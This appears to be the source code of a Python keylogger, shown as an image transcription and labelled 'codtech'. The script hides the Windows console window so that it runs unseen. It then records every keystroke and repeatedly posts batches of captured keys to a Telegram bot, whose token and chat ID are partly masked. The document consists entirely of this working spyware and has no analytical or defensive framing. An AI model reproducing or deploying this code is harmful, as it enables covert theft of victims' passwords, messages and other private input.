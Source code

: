 codtech
import requests
import keyboard
import ctypes
import os

# Hide the console window (only on Windows)
def hide_console():
    if os.name == 'nt':
        ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)

# Hide the console window at the start
hide_console()

print("start")

# Your Telegram bot token
token = "74073xxxxxxxxxxxxxxxxxxxx"
url = f"https://api.telegram.org/bot{token}/sendMessage"

# Chat ID to send the messages to
chat_id = "1453xxxxxxxxxxx"

data = ""
while True:
    a = keyboard.read_key()
    data += f"{a} "
    if len(data) > 20:
        print(data)
        pram = {"chat_id": chat_id, "text": data}
        print(url, pram)
        res = requests.post(url, data=pram)
        if res.status_code == 200:
            print("Message sent successfully!")
        else:
            print("Failed to send message.")
            print(f"Status Code: {res.status_code}")
            print(f"Response: {res.json()}")
        data = ""
        print(data)
